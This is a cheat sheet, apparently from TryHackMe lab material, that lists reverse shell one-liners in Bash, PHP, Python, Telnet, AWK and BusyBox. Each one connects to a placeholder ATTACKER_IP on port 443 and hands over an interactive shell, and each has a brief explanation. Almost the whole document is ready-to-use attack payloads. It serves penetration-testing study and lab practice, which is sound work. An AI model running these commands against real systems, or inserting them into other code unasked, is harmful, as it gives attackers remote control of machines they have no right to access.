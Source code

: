# Shell Payloads for Reverse Shells

## Bash

### Normal Bash Reverse Shell
```bash
target@tryhackme:~$ bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1
```
This command initiates an interactive bash shell, redirecting input and output through a TCP connection to the attacker's IP on port 443.

### Bash Read Line Reverse Shell
```bash
target@tryhackme:~$ exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done
```
This shell creates a new file descriptor (5) and connects to a TCP socket, reading and executing commands from the socket.

### Bash With File Descriptor 196 Reverse Shell
```bash
target@tryhackme:~$ 0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196
```
This command uses file descriptor 196 to establish a TCP connection, allowing for command input and output over the same connection.

### Bash With File Descriptor 5 Reverse Shell
```bash
target@tryhackme:~$ bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5
```
Similar to the first example, but explicitly uses file descriptor 5 for input and output.

## PHP

### PHP Reverse Shell Using the exec Function
```bash
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");'
```
Creates a socket connection to the attacker and executes a shell.

### PHP Reverse Shell Using the shell_exec Function
```bash
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'
```
Similar to the previous command but uses shell_exec for execution.

### PHP Reverse Shell Using the system Function
```bash
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");'
```
Executes the command with the system function, outputting the result to the browser.

### PHP Reverse Shell Using the passthru Function
```bash
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");'
```
Executes a command and sends raw output back to the browser.

### PHP Reverse Shell Using the popen Function
```bash
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3", "r");'
```
Uses popen to open a process file pointer for executing the shell.

## Python

### Python Reverse Shell by Exporting Environment Variables
```bash
target@tryhackme:~$ export RHOST="ATTACKER_IP"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```
Sets up environment variables for the remote host and port, creating a socket connection and duplicating file descriptors.

### Python Reverse Shell Using the subprocess Module
```bash
target@tryhackme:~$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
Uses the subprocess module for similar functionality as the previous command.

### Short Python Reverse Shell
```bash
target@tryhackme:~$ python -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```
A more concise version that establishes the socket connection and redirects file descriptors.

## Others

### Telnet Reverse Shell
```bash
target@tryhackme:~$ TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP 443 0<$TF | sh 1>$TF
```
Creates a named pipe and connects via Telnet to the attacker.

### AWK Reverse Shell
```bash
target@tryhackme:~$ awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```
Uses AWK’s TCP capabilities to connect and execute commands.

### BusyBox Reverse Shell
```bash
target@tryhackme:~$ busybox nc ATTACKER_IP 443 -e sh
```
This command uses BusyBox's Netcat to connect to the attacker and execute a shell.